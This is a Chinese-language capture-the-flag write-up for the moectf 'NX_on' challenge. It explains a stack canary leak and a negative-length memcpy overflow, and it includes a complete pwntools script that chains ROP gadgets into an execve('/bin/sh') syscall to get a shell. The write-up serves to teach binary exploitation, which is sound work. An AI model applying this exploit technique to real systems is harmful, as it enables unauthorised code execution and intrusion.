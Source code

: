 # moectf NX_on

by Maple

***canary+ROP***

存在输入并将输入输出出来的部分，所以可以以此泄露canary,详细看[这里](../basic/Canary.md)

```python
payload = b'a'*0x18+b'b'
p.recvuntil(b'id?')
p.send(payload)
p.recvuntil(payload)
canary = u64(b'\x00'+p.recv(7))
log.info("canary"+hex(canary))
```

接着是输入`buf2`，这里构造ROP链（我相信你已经可以看懂ROP链了，如果看不懂，再去写写其它题再来吧），稍后执行这里就行

接下来有个输入数值的，通过v5输入，然后可以控制`j_memcpy()`复制的长度

看到`unsigned int`就可以立刻想到输入一个负数，但是这里输入`-1`会出现问题，原因未知（懒狗懒得找了），随便试了试别的负数

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p = process('./pwn')
pop_rax = 0x00000000004508b7
pop_rdi = 0x000000000040239f
pop_rsi = 0x000000000040a40e
pop_rdx_rbx = 0x000000000049d12b
syscall = 0x402154
binsh = 0x00000000004e3950

payload = b'a'*0x18+b'b'
p.recvuntil(b'id?')
p.send(payload)
p.recvuntil(payload)
canary = u64(b'\x00'+p.recv(7))
log.info("canary"+hex(canary))

payload2 = b'B'*0x18+p64(canary)+b'c'*0x8
payload2+=p64(pop_rax)+p64(59)
payload2+=p64(pop_rdi)+p64(binsh)
payload2+=p64(pop_rsi)+p64(0)
payload2+=p64(pop_rdx_rbx)+p64(0)+p64(0)
payload2+=p64(syscall)

p.recvuntil(b'name?\n')
p.sendline(payload2)
p.recvuntil(b'quit\n')
p.sendline(b'-111')
p.interactive()
```

